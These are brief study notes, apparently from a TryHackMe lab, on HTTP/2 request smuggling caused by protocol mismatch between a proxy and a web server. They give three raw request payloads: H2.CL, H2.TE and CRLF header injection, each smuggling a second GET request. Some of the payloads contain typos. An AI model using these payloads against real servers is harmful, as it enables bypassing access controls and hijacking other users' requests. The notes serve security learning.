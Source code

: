 - Vulnerability comes due to different protocol support between proxy and the webserver. Eg. if proxy supports http2 but webserver supports http

- Http2 to Content length
```http

:method: POST
:path: /
:scheme: https
:authority:tryhackme.com
user-agent: Mozilla/5.0|
content-length: 0

GET /private HTTP/1.1

```

- HTTP2 to transfer encoding
```http
:method: POST
:path: /
:scheme: https
:authority:tryhackme.com
user-agent: Mozilla/5.0
transfer-encodin: chunked

0r\n
\r\n
GET /other HTTP/1.1\r\n
Foo: x
```

- CRLF injection

```http
:method: POST
:path: /
:scheme: https
:authority:tryhackme.com
user-agent: Mozilla/5.0
Foo: bar\r\nContent-Length: 0\r\n\r\nGET /other HTTP/1.1\r\nX: x
```